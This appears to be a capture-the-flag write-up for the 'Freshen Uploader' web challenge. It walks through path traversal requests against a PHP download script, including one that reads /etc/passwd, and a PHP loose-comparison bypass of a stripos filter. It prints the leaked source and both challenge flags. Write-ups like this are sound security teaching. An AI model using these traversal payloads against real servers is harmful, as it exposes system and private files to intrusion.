 # Freshen Uploader

## Problem

In this year, we stopped using Windows so you can't use DOS tricks!

http://fup.chal.ctf.westerns.tokyo/

Flag 1: TWCTF{then_can_y0u_read_file_list?}

Flag 2: TWCTF{php_is_very_secure}


## Flag 1

If you go to the webpage for the challenge you will have a list of files that you can download. 

If you view source you can see that the browser is making a GET request to:
http://fup.chal.ctf.westerns.tokyo/download.php?f= then the name of the file.

The first thing I tried was local file inclusion because you are giving the name of the file you want to download in the GET request. 

http://fup.chal.ctf.westerns.tokyo/download.php?f=../../../../../../etc/passwd

Works!!

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
unscd:x:112:116::/var/lib/unscd:/bin/false
twctf:x:1000:1000:Ubuntu:/home/twctf:/bin/bash
zabbix:x:113:117::/nonexistent:/bin/false
```

After that I had to think what is a file that I know is on the system and can help get the flag, download.php is on the system because they call it. 

http://fup.chal.ctf.westerns.tokyo/download.php?f=download.php

It download a file that was empty, so that didn't work so I figured it was looking for download.php in the wrong directory 

http://fup.chal.ctf.westerns.tokyo/download.php?f=../download.php

Worked!!

```
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```

## Flag 2

Flag 1 tells you that the next task is to try to download file_list. Reading the code the only thing that stuck out to me was the if statement 

Stripos will return the location of when it found the first parameter in the second parameter or false if not found
```
stripos('a', 'brandon') = 2

stripos('a', 'apple') = 0

stripos('q', 'apple') = false
```

In PHP, == or != will only compare value and not type, === will compare both value and type 

```
0 == false  = True

0 === false = False

1 == true   = True

1 === true  = Flase 
```
 
We need to get past the if statment in order for us to download the file, in order for it to get past the if statment the stripos would have to output 0 or false

In order for stripos to output a 0 file_list would have to be the start of the query


/download?f=file_list 

This query downloads an empty file, that means that it was looking in the wrong directory for file_list and it was not found. 

/download?f=../file_list

This query doesn't download a file because the stripos will return 3 making the script die 

So we know that file_list needs to be at he begining of the file name as well as we have to go to the correct directory

/download?f=file_list/../../file_list.php 

Works!! 

What this is doing is are saying look in the file_list directory wait do back a directory so we are back where we are then do back one more directory and grab the file_list.php file

```
<?php
$files = [
  [FALSE, 1, 'test.cpp', 192, '6a92b449761226434f5fce6c8e87295a'],
  [FALSE, 2, 'test.c', 325, '27259bca9edf408829bb749969449550'],
  [TRUE, 3, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213', 1337, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213'],
  [FALSE, 4, 'test.py', 94, '951470281beb8a490a941ac73bd10953'],
]; 
```

YAY!! 

If you submit the query

download.php?f=flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213

```
TWCTF{php_is_very_secure}
```
